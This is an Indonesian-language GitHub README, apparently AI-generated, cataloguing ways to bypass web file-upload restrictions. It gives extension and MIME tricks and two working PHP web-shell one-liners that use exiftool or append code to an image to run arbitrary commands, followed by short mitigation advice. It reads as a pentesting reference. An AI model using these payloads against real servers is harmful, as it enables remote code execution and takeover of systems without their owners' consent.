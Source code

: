 # 📂 Unrestricted File Upload Bypass Techniques

![License](https://img.shields.io/badge/license-Educational-blue)
![Status](https://img.shields.io/badge/status-Active-brightgreen)
![Security](https://img.shields.io/badge/security-awareness-important)

> 📖 **Dokumen ini menjelaskan berbagai teknik umum yang digunakan untuk bypass pembatasan unggah file pada aplikasi web.**
> Ditujukan untuk **peneliti keamanan**, **penetration tester**, dan **developer** dalam mengidentifikasi potensi celah dan membangun mitigasi yang tepat.

---

## 📖 Daftar Isi

* [Deskripsi](#deskripsi)
* [Tabel Summary Bypass](#📊-tabel-summary-bypass)
* [Bypass Ekstensi File Umum](#bypass-ekstensi-file-umum)
* [Bypass Magic Number](#📌-teknik-bypass-magic-number)
* [Bypass Tipe MIME](#bypass-tipe-mime)
* [Teknik Unggah File Tanpa Batasan](#teknik-unggah-file-tanpa-batasan)
* [Rekomendasi Mitigasi](#📌-rekomendasi-mitigasi)
* [Lisensi](#📑-lisensi)
* [Kontak](#📬-kontak)

---

## Deskripsi

Serangan unrestricted file upload memungkinkan penyerang mengunggah file berbahaya ke server karena validasi yang lemah. Teknik di dokumen ini memanfaatkan celah pada:

* Validasi ekstensi file
* Pemeriksaan MIME type
* Pemeriksaan magic number file
* Sanitasi nama file yang buruk

---

## 📊 Tabel Summary Bypass

| Teknik                     | Contoh Ekstensi / Metode             | Tujuan                               |
| :------------------------- | :----------------------------------- | :----------------------------------- |
| **Bypass Ekstensi**        | `.php`, `.php5`, `.php.jpg`          | Menipu validasi ekstensi             |
| **Magic Number Injection** | Inject PHP code via `Exiftool`       | Menyisipkan shell di metadata gambar |
| **MIME Type Bypass**       | `application/x-httpd-php`            | Mengakali pengecekan tipe konten     |
| **Encoded Extension**      | `.php%00`, `.php%20`, `.php%0a`      | Menyembunyikan ekstensi asli         |
| **Double/Mixed Extension** | `.png.php`, `.jpg.pHp5`, `.php#.png` | Menyiasati pemeriksaan nama file     |

---

## Bypass Ekstensi File Umum

Beberapa ekstensi yang umum digunakan untuk bypass:

```
.php, .php5, .phtml, .pgif, .phar, .cgi, .pl, .py, .Php, .php.jpg, .php.bak, .exe
```

**Variasi:**

* `.php56`, `.php.test`, `.php.docx`, `.php.unknown`
* `.php.xxxjpg`, `.php.xxxpdf`, `.php.xxxzip`

---

## 📌 Teknik Bypass Magic Number

### 📌 Inject Metadata via Exiftool

```bash
exiftool -Comment="<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" img.jpg
```

---

### 📌 Append PHP Code ke File Gambar

```bash
echo '<?php system($_REQUEST['cmd']); ?>' >> img.png
```

---

## Bypass Tipe MIME

Bypass validasi dengan tipe MIME:

```
application/x-httpd-php
```

---

## Teknik Unggah File Tanpa Batasan

### 📌 Encoded Extension

```
.php%00, .php%20, .php%0a, .php/, .php....
```

### 📌 Double / Mixed Extension

```
.png.php, .php#.png, .php%00.png, .png.jpg.php
```

---

## 📌 Rekomendasi Mitigasi

✅ Validasi **whitelist ekstensi file**

✅ Pemeriksaan **MIME type di server**

✅ Verifikasi **magic number file**

✅ Sanitasi nama file dari karakter spesial

✅ Simpan file **di luar web root**

✅ Atur **file permission non-eksekusi**

✅ Batasi ukuran & scan isi file

---

## 📑 Lisensi

Distribusi untuk tujuan edukasi & keamanan siber.
**Gunakan dengan tanggung jawab.**

---

## 📬 Kontak

📧 Email: **[sinzoxp@gmail.com](mailto:sinzoxp@gmail.com)**
📱 Telegram: [@avxxr00t](https://t.me/avxxr00t)

---

## 📌 Note Tambahan

🚨 **Disclaimer:**
Gunakan teknik ini hanya untuk **penetration testing legal** atau riset di lingkungan yang Anda miliki izin penuh.

---

## 📎 Preview Markdown

Jika ingin langsung dipasang ke repository GitHub, tinggal simpan dengan nama `README.md`.

---

Kalau mau sekalian kubuatin versi markdown file-nya (.md) siap download juga, tinggal beri tahu aja bro! Mau? 🚀🔥
